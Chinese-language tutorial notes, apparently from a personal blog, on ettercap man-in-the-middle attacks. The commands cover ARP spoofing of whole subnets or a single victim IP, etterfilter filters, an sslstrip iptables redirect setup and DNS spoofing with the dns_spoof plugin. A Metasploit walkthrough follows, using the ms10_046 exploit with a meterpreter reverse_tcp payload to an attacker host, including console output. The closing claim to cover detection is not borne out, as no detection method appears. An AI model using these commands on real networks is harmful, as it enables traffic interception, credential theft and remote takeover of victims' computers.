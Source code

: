 ```yaml
---
title: ettercap
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags:
---
```

Ettercap是一个多用途的开源工具，可以用来执行嗅探、主机分析等。在本教程中，我们使用中间人攻击进行ARP欺骗，ettercap有些不错的插件，可以增强中间人攻击。Ettercap中最重要的插件如下:
dns_spoof (执行DNS欺骗攻击)
Dos_attack(对受害主机进行拒绝服务攻击)
Chk_poison(检测是否成功进行了攻击)
Repoison_arp(顾名思义，修复ARP)

# Ettercap SEND L3 错误  ?
SEND L3 ERROR: 1298 byte packet (0800:06) destined to xxx.xxx.xx.xxx was not forwarded (libnet_write_raw_ipv4(): -1 bytes written (Message too long)
这个错误的原因其实是因为没有打开系统的ip转发功能，解决办法很简单

echo "1" > /proc/sys/net/ipv4/ip_forward

#重装了Ubuntu 12.04，内核升级后，支持了临时IPV6地址，但是，默认被设置成了：优先走临时地址，再走public地址。

关键就是这个use_tempaddr啦，定义如下：
use_tempaddr 	System dependent (seems to be 2 on Ubuntu these days…) 	We might expect that this is a simple on/off value to enable use of temporary addresses. Yet when we cat it on this system it has the value ’2′.
    0：不使用临时IPV6地址
    <=0 Disable Privacy Extensions (i.e. do not use changing temporary addresses at all)
    ==1 Use the Privacy Extensions, but prefer public (i.e. non-temporary) adresses over temporary ones.
    >1 (e.g. 2 as here) Use the Privacy Extensions and prefer them.

该怎么做不用我说了吧，root直接写值即可。
su
echo 0 > /proc/sys/net/ipv6/conf/eth0/use_tempaddr

 备注：此内核设置即时生效，无需重启networking服务。
################################################################################

-t 只监听这种协议
-T ettercap检查pcap文件（脱机监听）
-q 安静（不回显）
-M 这是一个重要的参数，他会告诉ettercap执行中间人攻击，使用这个参数很简单，如 -M method
-F 指定要加载的过滤规则
-P 加载插件

sudo ettercap -i enp3s0 -T -q /// ///

#ARP欺骗
################################################################################
##对所有主机进行ARP欺骗
Ettercap -T -q -M ARP//
sudo ettercap -i enp3s0 -T -q -M arp:remote /// ///
##目标/受害者 IP：192.168.1.6 欺骗
sudo ettercap -T -q -M ARP /192.168.1.6/ //


# 嗅探字段
`vi /etc/ettercap/etter.conf`


################################################################################
# etterfilter 过滤规则
```
ls /usr/share/ettercap
etterfilter /usr/share/ettercap/etter.filter.ssh -o ssh.ef
sudo ettercap -T -q -i enp3s0 -F exe.ef -M ARP // // -P autoadd
```
/usr/share/ettercap/
/usr/share/ettercap/etter.fields
指定要提取的字段
[loginauth]
Loginauth

## sslstrip
sudo vi /etc/ettercap/etter.conf
```
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```
```
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 992 -j REDIRECT --to-ports 59263
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 465 -j REDIRECT --to-ports 59264
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 995 -j REDIRECT --to-ports 59265
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 563 -j REDIRECT --to-ports 59266
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 636 -j REDIRECT --to-ports 59267
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 994 -j REDIRECT --to-ports 59268
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 993 -j REDIRECT --to-ports 59269
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 8080 -j REDIRECT --to-ports 59271
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 443 -j REDIRECT --to-ports 59272
-A PREROUTING -i enp3s0 -p tcp -m tcp --dport 990 -j REDIRECT --to-ports 59274
```

sudo ettercap -T -q -i enp3s0 -F exe.ef -M ARP // // -P sslstrip
#DNS欺骗
################################################################################
选择etter。查看Dns使用简单的命令：
root@bt:~# locate etter.dns
/usr/local/share/videojak/etter.dns
/usr/share/ettercap/etter.dns
root@bt:~#
现在你可以使用你喜欢的文本编辑器来编辑这个文件。你可以使用文本编辑器nano或者其他任何你想要的
root@bt:~# gedit /usr/share/ettercap/etter.dns
root@bt:~# nano /usr/share/ettercap/etter.dns
当你完成了保存这个文件，现在做好了准备。我们需要做得就是通过ettercap启用DNS欺骗攻击:
root@bt:~# ettercap -T -q -P dns_spoof -M arp // //

让我们来拆开命令结构，来分析DNS欺骗攻击所用到的命令：
-P  使用插件，这里我们使用的是dns_spoof
-T 使用基于文本界面
-q  启动安静模式（不回显的意思）
-M 启动ARP欺骗攻击
// //  代表欺骗整个子网网络
此外，我们可以综合使用这些命令。例如，你想要欺骗一个特定的受害主机，那么你可以使用受害者的IP来执行DNS欺骗攻击。

root@bt:~# ettercap -T -q -P dns_spoof -M arp // //
在另一个例子中，你可以使用特定的接口来执行dns欺骗攻击。为此，可以使用如下命令：

root@bt:~# ettercap -T -q -i eth0 -P dns_spoof -M arp // //
DNS欺骗是一种非常危险的攻击，因为攻击者可以利用ettercap的dns_spoof插件和其他工具执行攻击。最终，攻击者可以使用一个社会工程工具包（作者这里指的应该是SET了）来执行攻击去控制受害者的电脑。想象一下这是多少容易，通过社会工程工具包和DNS欺骗技术你所需要做得就是配置你的社会工程工具包和你的IP清单，制作像谷歌一样的网站欺骗域名到你的IP地址上。当受害者打开google，你的攻击将使它访问你的IP，之后建立一个远程的会话。
让我们来考虑一个示例场景：下面是是metasploit 渗透工具使用ettercap进行dns欺骗。选择你想要的exploit，在payload中我们就选择 reverse_tcp：
root@bt:~# msfconsole
o 8 o o
8 8 8
ooYoYo. .oPYo. o8P .oPYo. .oPYo. .oPYo. 8 .oPYo. o8 o8P
8' 8 8 8oooo8 8 .oooo8 Yb.. 8 8 8 8 8 8 8
8 8 8 8. 8 8 8 'Yb. 8 8 8 8 8 8 8
8 8 8 `Yooo' 8 `YooP8 `YooP' 8YooP' 8 `YooP' 8 8
..:..:..:.....:::..::.....::.....:8.....:..:.....::..::..:
::::::::::::::::::::::::::::::::::8:::::::::::::::::::::::
::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
=[ metasploit v3.7.0-release [core:3.7 api:1.0]
+ -- --=[ 684 exploits - 355 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops

msf > use windows/browser/ms10_046_shortcut_icon_dllloader
msf exploit(ms10_046_shortcut_icon_dllloader) > set SRVHOST 192.168.1.12
SRVHOST => 192.168.1.12
msf exploit(ms10_046_shortcut_icon_dllloader) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms10_046_shortcut_icon_dllloader) > set LHOST 192.168.1.12
LHOST => 192.168.1.12
msf exploit(ms10_046_shortcut_icon_dllloader) > exploit
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.1.12:4444
[*]
[*] Send vulnerable clients to \\www.2cto.com \bqokoWwx\.
[*] Or, get clients to save and render the icon of http://<your host>/<anything>.lnk
[*]
[*] Using URL: http://192.168.1.12:80/
[*] Server started.
如果一切正常，我们所需要做得就是根据我们的DNS配置etter文件。看下面这个图：我使用攻击者的IP地址来设置为目标网站。一旦受害者打开该网站，他将被重定向到192.168.1.12中，然后会话开始。

这些只是DNS欺骗中最危险的一个方面：受害者不知道发送了什么，因为一切似乎是合情合理的，但不幸的是数据并没有进行正确的传输。此外，这种攻击非常危险，因为攻击者可能会利用这个技术在公共的wi-fi点上，入侵其他电脑。希望这篇文章已经讨论了一个有用的策略来检测ARP欺骗攻击和DNS欺骗攻击。
